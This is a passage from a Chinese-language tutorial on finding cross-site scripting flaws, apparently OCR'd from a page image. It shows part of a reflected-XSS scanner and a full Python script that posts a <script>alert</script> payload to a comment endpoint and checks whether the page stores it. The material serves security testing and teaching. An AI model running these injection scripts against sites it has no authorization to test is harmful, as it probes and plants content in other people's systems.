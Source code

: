 ```
26.         if payload in response.text:
27.             print(f"XSS vulnerability found! Payload: {payload}")
28.         else:
29.             print(f"No XSS vulnerability with payload: {payload}")
30.
31.     except requests.RequestException as e:
32.         print(f"Request failed: {e}")
33.
34\. if __name__ == "__main__":
35.     # Test each payload against the target URL for XSS vulnerability
36.     for payload in xss_payloads:
37.         test_xss_vulnerability(target_url, payload)
```

此 Python 脚本利用 `requests` 库向目标 URL 发送 `GET` 请求，并将各种 XSS payload 附加为 URL 参数。它检查响应内容以检测 payload 是否反射或在 HTML 内容中执行。通过修改 `target_url` 和 `xss_payloads` 变量，此脚本可被调整和扩展以测试 web 应用程序中不同的端点、表单或输入字段的 XSS 漏洞。

程序化地发现存储型 XSS 漏洞需要与允许用户输入持续存储的 Web 应用程序进行交互，例如评论区或用户个人资料。下面是一个示例脚本，模拟通过尝试存储恶意有效载荷并随后检索它来发现存储型 XSS 漏洞：

```
 1\. import requests
 2.
 3\. # Target URL to test for stored XSS vulnerability
 4\. target_url = "https://example.com/comment"
 5.
 6\. # Malicious payload to be stored
 7\. xss_payload = "<script>alert('Stored XSS')</script>"
 8.
 9\. def inject_payload(url, payload):
10.     try:
11.         # Craft a POST request to inject the payload into the vulnerable endpoint
12.         response = requests.post(url, data={"comment": payload})
13.
14.         # Check if the payload was successfully injected
15.         if response.status_code == 200:
16.             print("Payload injected successfully for stored XSS!")
17.
18.     except requests.RequestException as e:
19.         print(f"Request failed: {e}")
20.
21\. def retrieve_payload(url):
22.     try:
23.         # Send a GET request to retrieve the stored data
24.         response = requests.get(url)
25.
26.         # Check if the payload is present in the retrieved content
27.         if xss_payload in response.text:
28.             print(f"Stored XSS vulnerability found! Payload: {xss_payload}")
29.         else:
30.             print("No stored XSS vulnerability detected.")
31.
32.     except requests.RequestException as e:
33.         print(f"Request failed: {e}")
34.
35\. if __name__ == "__main__":
36.     # Inject the malicious payload
37.     inject_payload(target_url, xss_payload)
38.
39.     # Retrieve the page content to check if the payload is stored and executed
40.     retrieve_payload(target_url)
```

